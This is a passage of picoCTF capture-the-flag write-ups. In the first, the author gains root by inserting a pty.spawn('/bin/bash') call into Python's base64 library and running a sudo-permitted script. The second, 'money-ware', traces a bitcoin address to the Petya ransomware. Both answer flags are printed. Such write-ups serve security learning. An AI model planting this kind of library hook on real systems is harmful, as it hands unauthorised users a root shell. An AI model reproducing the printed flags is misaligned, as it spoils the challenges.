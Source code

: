 I imported `pty` and at the start of the function `b64encode`, I added the line:

```python
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    pty.spawn('/bin/bash')
    
    #code...
```

Finally, we can run the file with `sudo /usr/bin/python3 /home/picoctf/.server.py` got me a root shell!

Going into the directory `/challenge` and catting the file gives the flag:

> picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}

___
___

# money-ware

**100 points**

AUTHOR: JUNI19

Description
Flag format: picoCTF{Malwarename}
The first letter of the malware name should be capitalized and the rest lowercase.
Your friend just got hacked and has been asked to pay some bitcoins to 1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX. He doesn’t seem to understand what is going on and asks you for advice. Can you identify what malware he’s being a victim of?

___

Googling `1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX` I got the [link](https://www.bitcoinabuse.com/reports/1Mz7153HMuxXTuR2R1t78mGSdzaAtNbBWX) which had reports with descriptions and one of those descriptions points us to:

More information here: [https://blog.avira.com/petya-strikes-back/](https://blog.avira.com/petya-strikes-back/)

This is an article about a vulnerability called `Petya` so our answer should be:

> picoCTF{petya}

___
___

# findme

